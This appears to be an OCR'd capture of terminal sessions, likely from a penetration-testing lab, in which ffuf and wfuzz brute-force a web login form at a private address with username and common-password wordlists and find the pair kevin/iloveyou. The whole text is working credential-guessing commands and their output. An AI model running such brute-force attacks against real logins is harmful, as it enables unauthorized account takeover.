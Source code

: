 ```bash
ffuf -H "Content-Type: application/x-www-form-urlencoded" -fs=745 -w userzy.txt:PAR1 -w /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt:PAR2  -d 'user=PAR1&pass=PAR2' -u http://172.16.1.117/index.php
```
```bash

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://172.16.1.117/index.php
 :: Wordlist         : PAR1: /tmp/userzy.txt
 :: Wordlist         : PAR2: /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : user=PAR1&pass=PAR2
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 745
________________________________________________

[Status: 302, Size: 683, Words: 162, Lines: 30, Duration: 1ms]
    * PAR1: kevin
    * PAR2: iloveyou

:: Progress: [9000/9000] :: Job [1/1] :: 91 req/sec :: Duration: [0:00:04] :: Errors: 0 ::

real    0m4,298s
user    0m3,633s
sys     0m1,097s
```
```bash
root@kali2023:/tmp# time wfuzz -w userzy.txt -w /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt -d 'user=FUZZ&pass=FUZ2Z' -u http://172.16.1.117/index.php --hh 745
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.16.1.117/index.php
Total requests: 9000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                      
=====================================================================

000008050:   302        29 L     45 W       683 Ch      "kevin - iloveyou"                                                           

Total time: 6.460363
```